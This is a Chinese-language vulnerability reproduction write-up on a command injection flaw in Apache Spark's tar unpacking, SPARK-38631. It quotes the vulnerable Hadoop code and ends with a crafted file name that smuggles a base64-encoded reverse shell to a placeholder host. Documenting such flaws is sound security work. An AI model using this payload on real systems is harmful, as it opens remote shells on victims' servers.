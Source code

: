 # Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631

## 漏洞描述

Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当Spark任务的文件名可控时，`Utils.unpack`采用命令拼接的形式对tar文件进行解压，存在任意命令注入的风险。这是源于Hadoop中unTar函数存在问题，在其执行shell命令之前未正确转义文件名，直接拼接命令导致任意命令注入。

## 漏洞影响

Apache Spark 3.1.2, 3.2.1, 3.3.0

## 漏洞复现

我们查看官方的修复补丁

![img](/assets/PeiQi-Wiki/img/1649056170245-0002d819-b071-4ae4-b542-a5b949a68a2f.png)

![img](/assets/PeiQi-Wiki/img/1649056263083-dd43291e-4350-4e7b-9d5f-898989fc9da7.png)

官方修复针对.tar后缀的压缩包调用了新增的unTarUsingJava函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置

```php
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```

![img](/assets/PeiQi-Wiki/img/1649056439530-2fa3df48-184b-4eac-ac13-01bf51fd9490.png)

可以看到漏洞主要出现在 Linux对文件的解压处理中

```php
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

这里我们控制压缩tar文件的文件名就可以进行命令注入

```php
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

创建Tar文件, 在使用 addArchive执行解压就可以注入恶意命令

```php
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```

![img](/assets/PeiQi-Wiki/img/1649060584363-166e77a0-eafc-4398-a438-b84267b9b61a.png)